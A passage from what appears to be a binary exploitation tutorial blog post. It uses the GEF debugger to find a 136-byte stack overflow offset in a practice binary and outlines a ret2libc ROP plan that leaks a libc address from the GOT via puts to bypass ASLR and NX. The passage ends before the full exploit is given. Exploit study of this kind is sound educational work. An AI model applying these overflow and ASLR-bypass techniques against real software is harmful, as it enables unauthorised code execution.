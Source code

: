 ```terminal
aaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa                                                                                                            
[+] Saved as '$_gef0' 
...
gef➤  run
Starting program: /root/Tuts/blogposts/smashbin/aslr_leak/garbage 
Enter access password: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaa
aaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

access denied.

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401618 in auth ()
...
gef➤  pattern search $rsp
[+] Searching '$rsp'
[+] Found at offset 136 (little-endian search) likely
[+] Found at offset 129 (big-endian search) 
```
<br>
This shows us that the overflow occurs after the 136th byte. Let's test it.
<br>
```terminal
python -c "print 'A' * 136 + 'B' * 8" > test

gef➤  run < test                                                             
Starting program: /root/Tuts/blogposts/smashbin/aslr_leak/garbage < test
Enter access password:                                                                                                                                    
access denied.                                                                                                                                            
                                                                                                                                                          
Program received signal SIGSEGV, Segmentation fault.                                                                                                      
0x0000000000401618 in auth ()
...
gef➤  stack
────────────────────────────────────────────────────────────── Stack bottom (lower address) ──────────────────────────────────────────────────────────────
0x00007fffffffddc8│+0x0000: "BBBBBBBB"   ← $rsp ($savedip)
```
<br>
Indeed we've overwritten the $rsp with 8 bytes. We know where to place our payload so what now? Due to NX bit we can't place shellcode in the stack and execute it. We have to use ROP gadgets (I might write about these in the future) to execute a shell. For that we need the address of a  *pop rdi; ret* gadget, the address of the system in libc, and the "/bin/sh" string in libc. However, as we've learnt in the first post of this series, ASLR randomizes these addresses everytime we run the executable. The key point here is that ASLR randomizes the base address of shared libraries. Addresses of instructions in the libraries relative to the base address stays the same. Offsets of functions from the base address of libraries are available to us and are fixed. Knowing these, first we will leak the address of a libc function from the global offset table (GOT). Then we will substract the offset of the same function in libc to find the current base address of loaded libc library. Then we can use this base address to calculate the address of any libc function we want. I chose the printf function for this purpose. And how are we going to leak this address? We will simply feed the address to the puts function and write it to stdout. Puts reads the first argument from RDI register and that's why we need the *pop rdi; ret* gadget. After leaking we don't want the process to exit since this will render the leaked address invalid. Therefore we will redirect the process to the main function. So for this stage what we need are;
<br>
1. *pop rdi; ret* gadget.
2. Address of printf entry in the GOT
3. Address of puts entry in PLT